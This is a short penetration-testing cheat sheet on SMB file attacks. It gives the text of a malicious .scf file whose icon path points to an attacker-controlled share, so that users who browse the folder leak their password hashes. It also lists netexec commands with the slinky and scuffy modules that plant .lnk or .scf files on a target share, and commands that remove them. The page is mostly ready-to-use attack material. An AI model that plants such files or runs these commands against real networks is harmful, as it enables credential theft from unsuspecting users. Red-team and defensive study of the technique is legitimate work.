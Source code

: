 # File Attacks

With write rights on a SMB share, it is possible to drop a .scf or a .lnk file with the following content to grab some user hashes:

    [Shell]
    Command=2
    IconFile=\<attacker_IP>\share\pentestlab.ico
    [Taskbar]
    Command=ToggleDesktop

Use netexec to transfer the .lnk or .scf file to target for the attack

    nxc smb <target> -u user1 -p password -M slinky -o SERVER=<attacker_SMB_share_IP> -o NAME=<file_name>
    nxc smb <target> -u user1 -p password -M scuffy -o SERVER=<attacker_SMB_share_IP> -o NAME=<file_name>

##### To clean

    nxc smb <target> -u user1 -p password -M slinky -o CLEANUP=True
    nxc smb <target> -u user1 -p password -M scuffy -o CLEANUP=True
